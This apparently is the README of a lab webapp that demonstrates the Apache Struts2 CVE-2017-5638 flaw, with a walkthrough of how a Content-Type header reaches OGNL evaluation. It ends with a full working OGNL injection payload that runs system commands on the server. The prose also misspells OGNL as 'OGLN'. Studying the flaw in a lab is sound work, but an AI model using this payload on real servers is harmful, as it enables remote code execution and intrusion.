







# Apache Struts2 Vulnerability | CVE-2017-5638 | Struts2 Version 2.5

## Instructions

To simply run the webapp:
* java -jar ms-cybersecurity-1.jar (uses embedded Tomcat)

If you want to modify this source, the project uses the Maven build system:
* When modifying source: mvn package (create .jar)

## The Breakdown

The Jakarta MultiPart Parser:
   
The issue is how the Parser doesn't escape incoming values in the Content-Type header. What this means is that an OGLN expression can be packaged into the Content-Header. When the header is determined that it is MultiPart it sends it off to the OglnTextParser.class, which simply interprets the OGLN expression and subsequently ends up executing arbitrary commands.

The following is a step-by-step look at how this vulnerability is exploited.

The Struts2 Dispatcher: org.apache.struts2.dispatcher.Dispatcher

The Struts Dispatcher.class receives the request, and determines that it should be handled by the JakartaMultiPartRequest.class parser method

The OGLN expression from the Content-Header is then passed into the 'parse' method.

During the parsing attempt, an exception is thrown as it is unable to parse the OGLN expression, and ends up in JakartaMultiPartRequest.class buildError method

The buildError method attempts to find an appropriate error message to return to the user, however, in order to do this, it has to uses the LocalizedTextUtil.class findText method

The LocalizedTextUtil.class findText method will in turn call getDefaultMessage and pass in the Content-Header information

The TextParseUtil.class translateVariables method delegates to the OglnTextParser.class evaluate method

The result being that any OGLN expressions are now executed

### The Payload
This payload was pulled from 

The payload can be executed through CURL or POSTMAN

Content-Type :  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
                      
                      